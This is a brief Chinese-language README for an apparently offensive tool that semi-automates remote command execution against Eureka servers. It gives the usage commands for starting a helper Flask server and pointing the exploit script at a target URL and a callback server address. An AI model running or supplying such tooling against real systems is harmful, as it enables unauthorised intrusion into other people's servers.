 ## 介绍
半自动的eureka rce命令执行，免得每次命令执行都去手动修改重启flask

### 使用方法
先运行`python flaskserver.py`开启服务，记录随机端口，然后再运行`python eurekarce.py -u http://127.0.0.1:9090/ -s http://10.0.0.3:12989 -v 1`指定相应的参数即可执行命令

https://al0neme-staticfile.oss-cn-hangzhou.aliyuncs.com/static/202311261538996.png
